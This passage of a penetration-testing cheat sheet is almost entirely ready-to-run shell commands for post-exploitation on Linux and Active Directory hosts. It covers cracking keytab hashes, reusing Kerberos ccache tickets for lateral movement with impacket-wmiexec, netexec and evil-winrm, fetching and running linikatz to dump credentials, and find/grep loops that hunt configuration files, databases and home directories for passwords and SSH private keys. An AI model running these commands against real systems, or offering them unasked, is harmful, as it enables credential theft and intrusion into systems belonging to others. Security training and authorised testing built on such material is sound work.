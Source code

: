 ```shell

# Extracting Keytab Hashes with KeyTabExtract
python3 /opt/keytabextract.py $PATH.keytab
# Switch to user if password cracked
su - $USER@$DOMAIN

# Abusing Keytab ccache
## Find ccache files in system 'krb5cc_'
## Import cache file in the seesion
export KRB5CCNAME=$PATH/krb5cc_
root@linux01:~# klist
```

- Using Linux Attack Tools with Kerberos:

```shell
# Export the ccache file
export KRB5CCNAME=$PATH/krb5cc_

# Using wmiexec
impacket-wmiexec $COMPUTER_NAME -k

# Using netexec
netexec smb $COMPUTER_NAME -k --use-kcache

# Evil winrm
## sudo apt-get install krb5-user -y
## Check /etc/krb5.conf
evil-winrm -i $COMPUTER_NAME -r $DOMAIN
```

> We can convert ccache files in kribi format to use them in windows: `impacket-ticketConverter krb5cc_ name.kirbi`

- Using linikatz to extract all creds from system

```shell
# wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
# Saves files in a folder name starting with linikatz
./linikatz.sh
```


## Linux Password Attacks

### Credential Hunting

```shell
# Finding configuration files
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done

# Finding credentials in configuration files
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done

# finding databases
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done

# Finding scripts
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done

# SSH Keys
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
```